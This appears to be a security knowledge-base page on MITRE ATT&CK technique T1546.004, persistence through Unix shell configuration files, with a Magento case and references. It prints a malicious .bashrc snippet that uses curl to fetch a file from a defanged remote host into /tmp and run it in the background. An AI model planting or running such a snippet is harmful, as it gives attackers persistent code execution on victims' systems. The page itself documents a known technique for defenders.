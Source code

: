 ```yaml
---
title: "Event Triggered Execution: Unix Shell Configuration Modification (T1546.004)"
date: 2022-06-23T20:27:39-04:00
draft: false
---
```


# Event Triggered Execution: Unix Shell Configuration Modification

[T1546.004](https://attack.mitre.org/techniques/T1546/004/)

*Adversaries may establish persistence through executing malicious commands triggered by a user’s shell. User [Unix Shell](https://attack.mitre.org/techniques/T1059/004)s execute several configuration scripts at different points throughout the session based on events. For example, when a user opens a command-line interface or remotely logs in (such as via SSH) a login shell is initiated. The login shell executes scripts from the system (`/etc`) and the user’s home directory (`~/`) to configure the environment. All login shells on a system use /etc/profile when initiated. These configuration scripts run at the permission level of their directory and are often used to set environment variables, create aliases, and customize the user’s environment. When the shell exits or terminates, additional shell scripts are executed to ensure the shell exits appropriately.*

*Adversaries may attempt to establish persistence by inserting commands 
into scripts automatically executed by shells. Using bash as an example, the default shell for most GNU/Linux systems, adversaries may add commands that launch malicious binaries into the `/etc/profile` and `/etc/profile.d` files. These files typically require root permissions to modify and are executed each time any shell on a system launches. For user level permissions, adversaries can insert malicious commands into `~/.bash_profile`, `~/.bash_login`, or `~/.profile` which are sourced when a user opens a command-line interface or connects remotely.*

# Attack Vectors

### Magento

Malicious code was inserted within a site owner’s `.bashrc` file that downloads a JavaScript file from a remote location. This file loads whenever a user logs into a Unix account locally or through SSH. 

```bash
checks=$(ps aux | grep php-fpm | grep -v grep | grep tmp);

if [ "$checks" == "" ]; then

   rm -rf /tmp/.a /tmp/start_6457387765553057055;

   if ! [ -f /tmp/php-fpm ]; then

      curl -qs javascloud[.]com/victim_install.js > /tmp/php-fpm;

      chmod +x /tmp/php-fpm;

   fi

   /bin/sh /tmp/php-fpm > /dev/null 2>&1 &

Fi
```

**Amnesia - IoT/Linux Botnet**

Amnesia creates persistence files in `~/.bashrc` and `~/.bash_history`. 

# References

[https://blog.sucuri.net/2018/05/shell-logins-as-a-magento-reinfection-vector.html](https://blog.sucuri.net/2018/05/shell-logins-as-a-magento-reinfection-vector.html)

[https://scriptingosx.com/2019/06/moving-to-zsh-part-2-configuration-files/](https://scriptingosx.com/2019/06/moving-to-zsh-part-2-configuration-files/)

[https://unit42.paloaltonetworks.com/unit42-new-iotlinux-malware-targets-dvrs-forms-botnet/](https://unit42.paloaltonetworks.com/unit42-new-iotlinux-malware-targets-dvrs-forms-botnet/)

